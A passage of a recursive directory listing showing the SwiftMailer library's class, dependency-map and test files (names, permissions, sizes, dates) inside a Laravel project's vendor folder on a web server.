-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 LoadBalancedTransport.php
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 MailTransport.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Mailer
-rw-r--r--  1 www-data www-data 2.9K Feb 13  2017 Mailer.php
-rw-r--r--  1 www-data www-data 2.7K Feb 13  2017 MemorySpool.php
-rw-r--r--  1 www-data www-data 7.4K Feb 13  2017 Message.php
drwxr-xr-x  5 www-data www-data 4.0K Feb 13  2017 Mime
-rw-r--r--  1 www-data www-data 1.5K Feb 13  2017 MimePart.php
-rw-r--r--  1 www-data www-data  911 Feb 13  2017 NullTransport.php
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 OutputByteStream.php
drwxr-xr-x  6 www-data www-data 4.0K Feb 13  2017 Plugins
-rw-r--r--  1 www-data www-data 2.3K Feb 13  2017 Preferences.php
-rw-r--r--  1 www-data www-data  549 Feb 13  2017 ReplacementFilterFactory.php
-rw-r--r--  1 www-data www-data  554 Feb 13  2017 RfcComplianceException.php
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 SendmailTransport.php
-rw-r--r--  1 www-data www-data  456 Feb 13  2017 SignedMessage.php
-rw-r--r--  1 www-data www-data  368 Feb 13  2017 Signer.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Signers
-rw-r--r--  1 www-data www-data 1.9K Feb 13  2017 SmtpTransport.php
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 Spool.php
-rw-r--r--  1 www-data www-data 1.1K Feb 13  2017 SpoolTransport.php
-rw-r--r--  1 www-data www-data  720 Feb 13  2017 StreamFilter.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 StreamFilters
-rw-r--r--  1 www-data www-data  641 Feb 13  2017 SwiftException.php
drwxr-xr-x  3 www-data www-data 4.0K Feb 13  2017 Transport
-rw-r--r--  1 www-data www-data 1.3K Feb 13  2017 Transport.php
-rw-r--r--  1 www-data www-data  710 Feb 13  2017 TransportException.php
-rw-r--r--  1 www-data www-data  961 Feb 13  2017 Validate.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/ByteStream:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 4.2K Feb 13  2017 AbstractFilterableInputStream.php
-rw-r--r--  1 www-data www-data 4.2K Feb 13  2017 ArrayByteStream.php
-rw-r--r--  1 www-data www-data 6.5K Feb 13  2017 FileByteStream.php
-rw-r--r--  1 www-data www-data 1000 Feb 13  2017 TemporaryFileByteStream.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/CharacterReader:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 2.4K Feb 13  2017 GenericFixedWidthReader.php
-rw-r--r--  1 www-data www-data 2.0K Feb 13  2017 UsAsciiReader.php
-rw-r--r--  1 www-data www-data 8.1K Feb 13  2017 Utf8Reader.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/CharacterReaderFactory:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 3.3K Feb 13  2017 SimpleCharacterReaderFactory.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/CharacterStream:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 8.3K Feb 13  2017 ArrayCharacterStream.php
-rw-r--r--  1 www-data www-data 6.7K Feb 13  2017 NgCharacterStream.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Encoder:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 1.6K Feb 13  2017 Base64Encoder.php
-rw-r--r--  1 www-data www-data  11K Feb 13  2017 QpEncoder.php
-rw-r--r--  1 www-data www-data 2.4K Feb 13  2017 Rfc2231Encoder.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Events:
total 72K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 1.5K Feb 13  2017 CommandEvent.php
-rw-r--r--  1 www-data www-data  575 Feb 13  2017 CommandListener.php
-rw-r--r--  1 www-data www-data  777 Feb 13  2017 Event.php
-rw-r--r--  1 www-data www-data 2.4K Feb 13  2017 EventDispatcher.php
-rw-r--r--  1 www-data www-data  351 Feb 13  2017 EventListener.php
-rw-r--r--  1 www-data www-data 1.4K Feb 13  2017 EventObject.php
-rw-r--r--  1 www-data www-data 1.3K Feb 13  2017 ResponseEvent.php
-rw-r--r--  1 www-data www-data  579 Feb 13  2017 ResponseListener.php
-rw-r--r--  1 www-data www-data 2.7K Feb 13  2017 SendEvent.php
-rw-r--r--  1 www-data www-data  765 Feb 13  2017 SendListener.php
-rw-r--r--  1 www-data www-data 4.8K Feb 13  2017 SimpleEventDispatcher.php
-rw-r--r--  1 www-data www-data  564 Feb 13  2017 TransportChangeEvent.php
-rw-r--r--  1 www-data www-data 1.3K Feb 13  2017 TransportChangeListener.php
-rw-r--r--  1 www-data www-data 1.1K Feb 13  2017 TransportExceptionEvent.php
-rw-r--r--  1 www-data www-data  636 Feb 13  2017 TransportExceptionListener.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/KeyCache:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 5.5K Feb 13  2017 ArrayKeyCache.php
-rw-r--r--  1 www-data www-data 8.9K Feb 13  2017 DiskKeyCache.php
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 KeyCacheInputStream.php
-rw-r--r--  1 www-data www-data 2.7K Feb 13  2017 NullKeyCache.php
-rw-r--r--  1 www-data www-data 2.8K Feb 13  2017 SimpleKeyCacheInputStream.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Mailer:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 ArrayRecipientIterator.php
-rw-r--r--  1 www-data www-data  744 Feb 13  2017 RecipientIterator.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Mime:
total 156K
drwxr-xr-x  5 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 3.9K Feb 13  2017 Attachment.php
-rw-r--r--  1 www-data www-data  509 Feb 13  2017 CharsetObserver.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 ContentEncoder
-rw-r--r--  1 www-data www-data  969 Feb 13  2017 ContentEncoder.php
-rw-r--r--  1 www-data www-data 1.3K Feb 13  2017 EmbeddedFile.php
-rw-r--r--  1 www-data www-data  572 Feb 13  2017 EncodingObserver.php
-rw-r--r--  1 www-data www-data 6.4K Feb 13  2017 Grammar.php
-rw-r--r--  1 www-data www-data 2.0K Feb 13  2017 Header.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 HeaderEncoder
-rw-r--r--  1 www-data www-data  488 Feb 13  2017 HeaderEncoder.php
-rw-r--r--  1 www-data www-data 1.9K Feb 13  2017 HeaderFactory.php
-rw-r--r--  1 www-data www-data 4.1K Feb 13  2017 HeaderSet.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Headers
-rw-r--r--  1 www-data www-data 6.0K Feb 13  2017 Message.php
-rw-r--r--  1 www-data www-data 3.0K Feb 13  2017 MimeEntity.php
-rw-r--r--  1 www-data www-data 5.8K Feb 13  2017 MimePart.php
-rw-r--r--  1 www-data www-data  692 Feb 13  2017 ParameterizedHeader.php
-rw-r--r--  1 www-data www-data 5.2K Feb 13  2017 SimpleHeaderFactory.php
-rw-r--r--  1 www-data www-data  11K Feb 13  2017 SimpleHeaderSet.php
-rw-r--r--  1 www-data www-data  17K Feb 13  2017 SimpleMessage.php
-rw-r--r--  1 www-data www-data  23K Feb 13  2017 SimpleMimeEntity.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Mime/ContentEncoder:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 3.9K Feb 13  2017 Base64ContentEncoder.php
-rw-r--r-- 1 www-data www-data 3.4K Feb 13  2017 NativeQpContentEncoder.php
-rw-r--r-- 1 www-data www-data 4.2K Feb 13  2017 PlainContentEncoder.php
-rw-r--r-- 1 www-data www-data 4.2K Feb 13  2017 QpContentEncoder.php
-rw-r--r-- 1 www-data www-data 2.5K Feb 13  2017 QpContentEncoderProxy.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 13  2017 RawContentEncoder.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Mime/HeaderEncoder:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Feb 13  2017 Base64HeaderEncoder.php
-rw-r--r-- 1 www-data www-data 1.8K Feb 13  2017 QpHeaderEncoder.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Mime/Headers:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data  13K Feb 13  2017 AbstractHeader.php
-rw-r--r-- 1 www-data www-data 2.8K Feb 13  2017 DateHeader.php
-rw-r--r-- 1 www-data www-data 4.1K Feb 13  2017 IdentificationHeader.php
-rw-r--r-- 1 www-data www-data 9.1K Feb 13  2017 MailboxHeader.php
-rw-r--r-- 1 www-data www-data 2.5K Feb 13  2017 OpenDKIMHeader.php
-rw-r--r-- 1 www-data www-data 7.3K Feb 13  2017 ParameterizedHeader.php
-rw-r--r-- 1 www-data www-data 3.4K Feb 13  2017 PathHeader.php
-rw-r--r-- 1 www-data www-data 2.4K Feb 13  2017 UnstructuredHeader.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Plugins:
total 96K
drwxr-xr-x  6 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 3.1K Feb 13  2017 AntiFloodPlugin.php
-rw-r--r--  1 www-data www-data 3.6K Feb 13  2017 BandwidthMonitorPlugin.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Decorator
-rw-r--r--  1 www-data www-data 7.1K Feb 13  2017 DecoratorPlugin.php
-rw-r--r--  1 www-data www-data 1.7K Feb 13  2017 ImpersonatePlugin.php
-rw-r--r--  1 www-data www-data  614 Feb 13  2017 Logger.php
-rw-r--r--  1 www-data www-data 3.9K Feb 13  2017 LoggerPlugin.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Loggers
-rw-r--r--  1 www-data www-data 1.4K Feb 13  2017 MessageLogger.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Pop
-rw-r--r--  1 www-data www-data 6.9K Feb 13  2017 PopBeforeSmtpPlugin.php
-rw-r--r--  1 www-data www-data 5.2K Feb 13  2017 RedirectingPlugin.php
-rw-r--r--  1 www-data www-data  845 Feb 13  2017 Reporter.php
-rw-r--r--  1 www-data www-data 1.9K Feb 13  2017 ReporterPlugin.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Reporters
-rw-r--r--  1 www-data www-data  431 Feb 13  2017 Sleeper.php
-rw-r--r--  1 www-data www-data 4.7K Feb 13  2017 ThrottlerPlugin.php
-rw-r--r--  1 www-data www-data  426 Feb 13  2017 Timer.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Plugins/Decorator:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data  763 Feb 13  2017 Replacements.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Plugins/Loggers:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Feb 13  2017 ArrayLogger.php
-rw-r--r-- 1 www-data www-data 1.1K Feb 13  2017 EchoLogger.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Plugins/Pop:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data  718 Feb 13  2017 Pop3Connection.php
-rw-r--r-- 1 www-data www-data  582 Feb 13  2017 Pop3Exception.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Plugins/Reporters:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Feb 13  2017 HitReporter.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 13  2017 HtmlReporter.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Signers:
total 76K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data  770 Feb 13  2017 BodySigner.php
-rw-r--r--  1 www-data www-data  19K Feb 13  2017 DKIMSigner.php
-rw-r--r--  1 www-data www-data  13K Feb 13  2017 DomainKeySigner.php
-rw-r--r--  1 www-data www-data 1.5K Feb 13  2017 HeaderSigner.php
-rw-r--r--  1 www-data www-data 5.3K Feb 13  2017 OpenDKIMSigner.php
-rw-r--r--  1 www-data www-data  15K Feb 13  2017 SMimeSigner.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/StreamFilters:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 5.4K Feb 13  2017 ByteArrayReplacementFilter.php
-rw-r--r--  1 www-data www-data 1.6K Feb 13  2017 StringReplacementFilter.php
-rw-r--r--  1 www-data www-data 1.3K Feb 13  2017 StringReplacementFilterFactory.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Transport:
total 112K
drwxr-xr-x  3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data  15K Feb 13  2017 AbstractSmtpTransport.php
drwxr-xr-x  3 www-data www-data 4.0K Feb 13  2017 Esmtp
-rw-r--r--  1 www-data www-data 2.3K Feb 13  2017 EsmtpHandler.php
-rw-r--r--  1 www-data www-data  11K Feb 13  2017 EsmtpTransport.php
-rw-r--r--  1 www-data www-data 2.4K Feb 13  2017 FailoverTransport.php
-rw-r--r--  1 www-data www-data 1.7K Feb 13  2017 IoBuffer.php
-rw-r--r--  1 www-data www-data 4.5K Feb 13  2017 LoadBalancedTransport.php
-rw-r--r--  1 www-data www-data  742 Feb 13  2017 MailInvoker.php
-rw-r--r--  1 www-data www-data 9.2K Feb 13  2017 MailTransport.php
-rw-r--r--  1 www-data www-data 2.2K Feb 13  2017 NullTransport.php
-rw-r--r--  1 www-data www-data 4.9K Feb 13  2017 SendmailTransport.php
-rw-r--r--  1 www-data www-data  986 Feb 13  2017 SimpleMailInvoker.php
-rw-r--r--  1 www-data www-data  976 Feb 13  2017 SmtpAgent.php
-rw-r--r--  1 www-data www-data 2.6K Feb 13  2017 SpoolTransport.php
-rw-r--r--  1 www-data www-data 9.5K Feb 13  2017 StreamBuffer.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Transport/Esmtp:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 Auth
-rw-r--r-- 1 www-data www-data 5.8K Feb 13  2017 AuthHandler.php
-rw-r--r-- 1 www-data www-data  836 Feb 13  2017 Authenticator.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/Transport/Esmtp/Auth:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Feb 13  2017 CramMd5Authenticator.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 13  2017 LoginAuthenticator.php
-rw-r--r-- 1 www-data www-data  23K Feb 13  2017 NTLMAuthenticator.php
-rw-r--r-- 1 www-data www-data 1.3K Feb 13  2017 PlainAuthenticator.php
-rw-r--r-- 1 www-data www-data 1.9K Feb 13  2017 XOAuth2Authenticator.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/dependency_maps:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data  630 Feb 13  2017 cache_deps.php
-rw-r--r-- 1 www-data www-data  199 Feb 13  2017 message_deps.php
-rw-r--r-- 1 www-data www-data 4.2K Feb 13  2017 mime_deps.php
-rw-r--r-- 1 www-data www-data 2.5K Feb 13  2017 transport_deps.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests:
total 60K
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Feb 13  2017 IdenticalBinaryConstraint.php
-rw-r--r-- 1 www-data www-data  145 Feb 13  2017 StreamCollector.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 13  2017 SwiftMailerSmokeTestCase.php
-rw-r--r-- 1 www-data www-data  790 Feb 13  2017 SwiftMailerTestCase.php
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 _samples
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 acceptance
-rw-r--r-- 1 www-data www-data 1.1K Feb 13  2017 acceptance.conf.php.default
-rw-r--r-- 1 www-data www-data  662 Feb 13  2017 bootstrap.php
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 bug
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 fixtures
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 smoke
-rw-r--r-- 1 www-data www-data 1.6K Feb 13  2017 smoke.conf.php.default
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 unit

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/_samples:
total 24K
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 charsets
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 dkim
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 files
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 smime

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/_samples/charsets:
total 20K
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 iso-2022-jp
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 iso-8859-1
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 utf-8

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/_samples/charsets/iso-2022-jp:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 3.6K Feb 13  2017 one.txt

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/_samples/charsets/iso-8859-1:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 2.9K Feb 13  2017 one.txt

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/_samples/charsets/utf-8:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Feb 13  2017 one.txt
-rw-r--r-- 1 www-data www-data  13K Feb 13  2017 three.txt
-rw-r--r-- 1 www-data www-data 1.8K Feb 13  2017 two.txt

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/_samples/dkim:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data  887 Feb 13  2017 dkim.test.priv
-rw-r--r-- 1 www-data www-data  272 Feb 13  2017 dkim.test.pub

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/_samples/files:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data    6 Feb 13  2017 data.txt
-rw-r--r-- 1 www-data www-data 3.2K Feb 13  2017 swiftmailer.png
-rw-r--r-- 1 www-data www-data  202 Feb 13  2017 textfile.zip

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/_samples/smime:
total 64K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data   17 Feb 13  2017 CA.srl
-rw-r--r-- 1 www-data www-data 1.3K Feb 13  2017 ca.crt
-rw-r--r-- 1 www-data www-data 1.7K Feb 13  2017 ca.key
-rw-r--r-- 1 www-data www-data 1.9K Feb 13  2017 create-cert.sh
-rw-r--r-- 1 www-data www-data 1.2K Feb 13  2017 encrypt.crt
-rw-r--r-- 1 www-data www-data 1.7K Feb 13  2017 encrypt.key
-rw-r--r-- 1 www-data www-data 1.2K Feb 13  2017 encrypt2.crt
-rw-r--r-- 1 www-data www-data 1.7K Feb 13  2017 encrypt2.key
-rw-r--r-- 1 www-data www-data 1.2K Feb 13  2017 intermediate.crt
-rw-r--r-- 1 www-data www-data 1.7K Feb 13  2017 intermediate.key
-rw-r--r-- 1 www-data www-data 1.2K Feb 13  2017 sign.crt
-rw-r--r-- 1 www-data www-data 1.7K Feb 13  2017 sign.key
-rw-r--r-- 1 www-data www-data 1.2K Feb 13  2017 sign2.crt
-rw-r--r-- 1 www-data www-data 1.7K Feb 13  2017 sign2.key

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 Swift

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift:
total 56K
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data  290 Feb 13  2017 AttachmentAcceptanceTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 ByteStream
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 CharacterReaderFactory
-rw-r--r-- 1 www-data www-data  677 Feb 13  2017 DependencyContainerAcceptanceTest.php
-rw-r--r-- 1 www-data www-data  300 Feb 13  2017 EmbeddedFileAcceptanceTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 Encoder
-rw-r--r-- 1 www-data www-data  871 Feb 13  2017 EncodingAcceptanceTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 KeyCache
-rw-r--r-- 1 www-data www-data 1.9K Feb 13  2017 MessageAcceptanceTest.php
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 Mime
-rw-r--r-- 1 www-data www-data  391 Feb 13  2017 MimePartAcceptanceTest.php
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 Transport

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift/ByteStream:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 4.7K Feb 13  2017 FileByteStreamAcceptanceTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift/CharacterReaderFactory:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 6.5K Feb 13  2017 SimpleCharacterReaderFactoryAcceptanceTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift/Encoder:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.5K Feb 13  2017 Base64EncoderAcceptanceTest.php
-rw-r--r-- 1 www-data www-data 1.9K Feb 13  2017 QpEncoderAcceptanceTest.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 13  2017 Rfc2231EncoderAcceptanceTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift/KeyCache:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 5.7K Feb 13  2017 ArrayKeyCacheAcceptanceTest.php
-rw-r--r-- 1 www-data www-data 5.8K Feb 13  2017 DiskKeyCacheAcceptanceTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift/Mime:
total 88K
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 4.2K Feb 13  2017 AttachmentAcceptanceTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 ContentEncoder
-rw-r--r-- 1 www-data www-data 4.5K Feb 13  2017 EmbeddedFileAcceptanceTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 HeaderEncoder
-rw-r--r-- 1 www-data www-data 4.1K Feb 13  2017 MimePartAcceptanceTest.php
-rw-r--r-- 1 www-data www-data  46K Feb 13  2017 SimpleMessageAcceptanceTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift/Mime/ContentEncoder:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.8K Feb 13  2017 Base64ContentEncoderAcceptanceTest.php
-rw-r--r-- 1 www-data www-data 2.8K Feb 13  2017 NativeQpContentEncoderAcceptanceTest.php
-rw-r--r-- 1 www-data www-data 2.9K Feb 13  2017 PlainContentEncoderAcceptanceTest.php
-rw-r--r-- 1 www-data www-data 5.7K Feb 13  2017 QpContentEncoderAcceptanceTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift/Mime/HeaderEncoder:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Feb 13  2017 Base64HeaderEncoderAcceptanceTest.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift/Transport:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 StreamBuffer

/var/www/laravel/vendor/swiftmailer/swiftmailer/tests/acceptance/Swift/Transport/StreamBuffer:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 3.7K Feb 13  2017 AbstractStreamBufferAcceptanceTest.php
-rw-r--r-- 1 www-data www-data 1001 Feb 13  2017 BasicSocketAcceptanceTest.php
-rw-r--r-- 1 www-data www-data  776 Feb 13  2017 ProcessAcceptanceTest.php
